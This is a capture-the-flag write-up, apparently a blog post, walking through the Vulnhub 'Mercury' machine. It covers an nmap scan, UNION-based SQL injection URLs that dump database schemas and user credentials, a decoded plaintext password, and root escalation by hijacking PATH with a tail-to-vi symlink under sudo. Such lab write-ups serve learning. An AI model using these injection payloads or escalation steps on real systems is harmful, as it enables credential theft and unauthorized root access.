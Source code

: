 ```yaml
---
title: Vulnhub - Mercury Writeup
date: 2022-01-18 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, sqli, sqlmap, easy, privlege-escalation]
---
```


## Intro

[Mercury](https://www.vulnhub.com/entry/the-planets-mercury,544/) is an easy box, freely available on [vulnhub](https://vulnhub.com). The creator of the machine mentions on the page that there are two flags, one being the user flag and the other being the root flag, so nothing out of ordinary so far.  

## Enumeration

### Nmap Scan

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial.
```
nmap -sC -sV -v -p- --open -oN nmap_scan 10.0.2.4
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -v: Gives a verbose output
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan_mercury](/assets/mercury/Nmap_scan.png)

In the above scan we can see that there are two different ports open - 
1. 22: Running regular SSH service
2. 8080: Running a WSGi Server

Upon visiting the website on port 8080 we are greeted by a very simple page saying that the site is under development.  

![default_site](/assets/mercury/default_site.png)

Manually probing around the website and minor tinkering with the directory shows that the debugger for the web app was enabled and the benevolent error page revealed a new directory which could be of our interest.

![error](/assets/mercury/Error.png)

The new directory which we found is mercuryfacts. Upon visiting it, we can see that there is a fairly incomplete website as mentioned by the previous page.

![mercuryfacts](/assets/mercury/Mercuryfacts.png)

It further links to two different pages, one is a to-do list and the other is a mercury fact.

In the to-do list we get to see some interesting entries.

![todo](/assets/mercury/todo.png)

The third entry is of interest to us. It shows us a possible SQL Injection vector on the facts page.

## Exploitation

And as suspected we get a SQL error and there indeed is a SQLi vulnerability and the error page shown below also greets us with the whole sql statement which the framework is trying to use.

![sqli](/assets/mercury/SQL_statement.png)

Using the union command in SQL, we can run our custom statements on the MySQL server.
Here is the whole url used
```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT user()
```

![sql_test](/assets/mercury/sql_test.png)

To check the available databases, we can run the following command and get the output on the facts page.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT schema_ name FROM information schema.schemata
```

![two_db](/assets/mercury/Two_DBs.png)

We can see that there is only one distinct database "Mercury" of interest. Let's check the tables in it.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT table name FROM information _schema.tables;
```

![users_table](/assets/mercury/Users_table.png)

Out of the whole list only users table strike out and moreover it was also referred in the to-do list, lets see what the users table hold for us.

````
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT column name FROM information _schema.columns WHERE table name = ‘users’
````

![actual_content](/assets/mercury/Actual_user.png)

Now we can see that there are three fields only
1. ID
2. Username
3. Password

Now it is time to extract the credentials for different users.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT group concat(username,"-",password) from users
```

![passwords](/assets/mercury/passes.png)

For the next step, we can try using these credentials on the SSH and see if by any chance, some credential works there.

And bingo! the webmaster credentials seem to be working for the SSH and now it is time for some privilege escalation.

![webmaster_login](/assets/mercury/Webmaster_login.png)

## Privilege Escalation

Looking around the Webmaster's home directory we found out the user_flag! We can tick that one off the list.

![user_flag](/assets/mercury/User_flag.png)

There is another interesting directory in the home folder called "mercury_proj" which seems to hold the website files. There is a notes.txt file which seems to hold base64 encoded password for a different user called linuxmaster. Let's decode it and get a hold of that account as well! To decode the password, we can use the following command

```
echo "base64 encoded string" | base64 -d
```
The password which we get as a result is 
```
mercurymeandiameteris4880km
```
![linuxmaster](/assets/mercury/linuxmaster_pass.png)

Running the "sudo -l" command shows us that linuxmaster user can execute a shell script. But since we can not edit the file so we can not edit the file and get a reverse shell as root. Let's find another way to root.

![sudo-l](/assets/mercury/Sudo-l.png)

Taking a quick look at the shell script we can see that it executes "tail" as root user.  
Our linuxmaster user can create symbolic links, which means that we can link tail command to a different binary such as vi which can give us an easy way to a root shell. Following commands will create a link of "tail" to "vi" and help us get root shell.  
```
ln -s /usr/bin/vi tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```
The first command will create a symbolic link between tail an vi.  
Then the second command will update PATH variable with our new PATH. And the third command will execute the shell script with our current PATH

![getting_to_root](/assets/mercury/getting_to_root.png)

Now all we have to break out of Vi is to type ":shell" and we should be good to go.

![shell](/assets/mercury/shell.png)

And we have the root! If we head over to the root user's home directory we will see our second and final flag!

![root_flag](/assets/mercury/Root.png)

With this we have completed Mercury.
